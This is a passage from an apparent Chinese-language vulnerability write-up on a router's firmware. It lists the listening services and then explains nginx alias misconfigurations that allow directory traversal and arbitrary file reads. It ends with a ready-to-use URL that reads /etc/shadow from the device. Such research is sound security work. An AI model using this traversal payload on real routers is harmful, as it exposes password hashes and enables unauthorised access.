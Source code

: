 ```
unix  2    [ ACC ]     STREAM     LISTENING     1131 741/syslog-ng     /var/syslog-ng.ctl
unix  2    [ ACC ]     STREAM     LISTENING     3245 932/ubusd       /var/run/ubus.sock
unix  2    [ ACC ]     STREAM     LISTENING     6833 5793/lua        /var/run/miqosd.sock


```

可以看到监听了很多端口。

*   22 端口 dropbear ，ssh 服务，稳定版没开启
*   dnsmasq，dns 服务
*   nginx，开了大量端口

[](#Web漏洞分析 "Web漏洞分析")Web 漏洞分析
------------------------------

### [](#任意文件读取漏洞 "任意文件读取漏洞")任意文件读取漏洞

```
nginx: master process /usr/sbin/sysapihttpd -c /tmp/sysapihttpdconf/sysapihttpd.conf

```

配置文件中找到了多处`nginx配置错误导致回溯上级目录的文件读漏洞`，且存在`根目录任意文件读取漏洞`。

```
location /backup/log {
  alias /tmp/syslogbackup/;
}

```

可读取`/tmp/`目录下文件。

```
location /api-third-party/download/public {
  alias /userdisk/data/;
}
location /api-third-party/download/private {
  alias /userdisk/appdata/;
}

```

可读取`/userdisk/`目录下文件。

```
location /api-third-party/download/extdisks {
  alias /extdisks/;
}

```

可读取`/`目录下文件

```
http://192.168.31.1/api-third-party/download/extdisks../etc/shadow

```
